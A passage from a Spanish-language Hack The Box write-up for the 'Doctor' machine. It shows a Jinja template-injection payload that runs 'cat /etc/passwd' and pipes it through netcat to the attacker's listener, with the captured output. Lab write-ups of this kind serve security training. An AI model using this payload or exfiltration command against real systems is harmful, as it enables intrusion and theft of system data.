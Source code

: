 ![278pagedoctors_injA_idYwhoami_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagedoctors_injA_idYwhoami_res.png)

Perfecto, tenemos ejecución de comandos en el sistema como `web`, intentemos obtener el archivo `/etc/passwd`.

Ponemos en el titulo del post:

{% raw %}
```py
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc 10.10.14.83 4433')['read']()}}
```
{% endraw %}

Nos ponemos en escucha por el puerto 4433:

```bash
–» nc -nlvp 4433
listening on [any] 4433 ...
```

Vamos a `/archive` y ejecutamos, el resultado que tenemos en consola es:

```bash
connect to [10.10.14.83] from (UNKNOWN) [10.10.10.209] 55928
root:x:0:0:root:/root:/bin/bash
...
web:x:1001:1001:,,,:/home/web:/bin/bash
...
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash 
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```

* [Info sobre `os` y `subprocess`](https://uniwebsidad.com/libros/python/capitulo-10/modulos-de-sistema).

Listo, pues veamos como obtener una reverse shell (:

**NOTA: ---**
